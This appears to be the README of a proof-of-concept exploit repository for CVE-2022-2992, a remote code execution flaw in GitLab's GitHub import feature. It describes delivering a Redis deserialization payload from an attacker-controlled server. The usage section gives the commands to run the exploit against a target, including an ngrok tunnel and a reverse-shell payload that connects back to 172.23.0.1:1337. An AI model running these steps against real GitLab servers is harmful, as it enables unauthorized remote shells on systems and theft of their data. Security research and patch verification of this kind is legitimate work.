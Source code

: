 # CVE-2022-2992: Remote Command Execution via Github import

## Information
**Description:** This allows an authenticated user to achieve remote code execution via the Import from GitHub API endpoint.  
**Versions Affected:** all versions from 11.10 prior to 15.1.6, 15.2 to 15.2.4, 15.3 to 15.3.2  
**Version Fixed:** 15.3.2  
**Researcher:** [vakzz](https://twitter.com/wcbowling)  
**Write-up Link:** https://blog.redwaysecurity.com/2023/04/desenvolvendo-o-exploit-para-o-cve-2022.html  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2022-2992  

## Proof-of-Concept Exploit
### Description
An authenticated user can import a repository from Github into Gitlab. One can try to import from an attacker's controller server which replies with a Redis' serialization protocol object in the nested `default_branch` making the Gitlab to cache this object on redis and the redis to deserialize it and trigger execute the payload.

### Usage/Exploitation
One will need a [personal access token](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html#create-a-personal-access-token)

```bash
$ bundle install # install dependencies
$ ngrok http 127.0.0.1:4567  # start ngrok tunnel
$ export NGROK_URL=https://68b9-83-173-213-121.eu.ngrok.io # use the url from ngrok
$ ruby exploit.rb http://target.gitlab.com w4dg6wVj7j7xlJgpGLEYdwFe 'bash -c "sh -i >& /dev/tcp/172.23.0.1/1337 0>&1"' # that is a example, use your own payload
```
### Example
![Remote Command Execution via Github import](images/cve-2022-2992.gif)
